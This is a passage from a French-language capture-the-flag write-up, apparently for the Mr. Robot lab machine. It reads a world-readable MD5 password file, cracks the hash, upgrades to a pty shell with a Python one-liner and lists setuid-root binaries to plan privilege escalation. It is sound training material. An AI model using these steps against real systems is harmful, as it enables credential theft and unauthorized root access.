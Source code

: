 Un utilisateur robot existe, allons voir les fichiers de ce dernier :

```

ls -la /home/robot
total 16
drwxr-xr-x 2 root root 4096 Nov 13 2015 .
drwxr-xr-x 3 root root 4096 Nov 13 2015 ..
-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5

```

La seconde clef est ici, mais seul robot peut lire ce fichier. Par contre password.raw-md5 est accessible à tous.

```

cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```

Une fois "Googlelé" cette chaine md5 est en réalité : "abcdefghijklmnopqrstuvwxyz".
Tentons de nous logger :

```su robot
su: must be run from a terminal
```

Avant de pouvoir aller plus loin, il nous faut un shell dans un tty pour que su puisse fonctionner.
Après quelques secondes de recherche sur Pentest Monkey la chaîne suivante nous permet, en python, d'obtenir un shell dans un pseudo tty.

```

python -c "import pty; pty.spawn('/bin/bash')"
&lt;ps/wordpress/htdocs/wp-content/plugins/gSmqOhbMXe$

```

On peux maintenant se logger avec l'utilisateur robot et lire la seconde partie du flag.

## Got Root !

Le fichier contenant la 3eme partie du flag appartient à root. L'objectif est donc clair, obtenir un shell root pour terminer l'épreuve.
Pour cela on commence par chercher les binaires setuid root :

```

&lt;tent/plugins/gSmqOhbMXe$ find / -user root -perm -4000 -print
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
find: `/etc/ssl/private': Permission denied
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
```